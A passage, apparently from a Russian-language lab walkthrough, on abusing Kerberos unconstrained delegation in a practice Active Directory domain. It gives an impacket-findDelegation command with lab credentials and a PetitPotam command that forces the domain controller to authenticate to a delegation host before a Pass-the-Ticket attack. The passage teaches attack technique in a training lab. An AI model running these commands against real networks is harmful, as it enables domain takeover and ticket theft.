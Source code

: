 ![](/images/coerce/Pasted%20image%2020250104010017.png)

**Неограниченное делегирование Kerberos**

Если у злоумышленника есть привилегии локального администратора на хосте с неограниченным делегированием, он может получить TGT-билеты пользователей, которые проходят аутентификацию на этом хосте, и переиспользовать их до истечения срока действия.

Злоумышленник, имея учетную запись пользователя домена, может получить информацию о делегировании в домене.

```
impacket-findDelegation 'north.sevenkingdoms.local/arya.stark:Needle' -target-domain north.sevenkingdoms.local
```

![](/images/coerce/Pasted%20image%2020250106102847.png)

Сервер castelblack.north.sevenkingdoms.local имеет права неограниченного делегирования в домене.

Заставим контроллер домена winterfell.north.sevenkingdoms.local (192.168.56.11) аутентифицироваться на хосте castelblack (192.168.56.22) и проведем атаку Pass-the-Ticket

```
python /home/kali/PetitPotam/PetitPotam.py -u '' -p '' castelblack.north.sevenkingdoms.local 192.168.56.11
```

![](/images/coerce/Pasted%20image%2020250106105915.png)
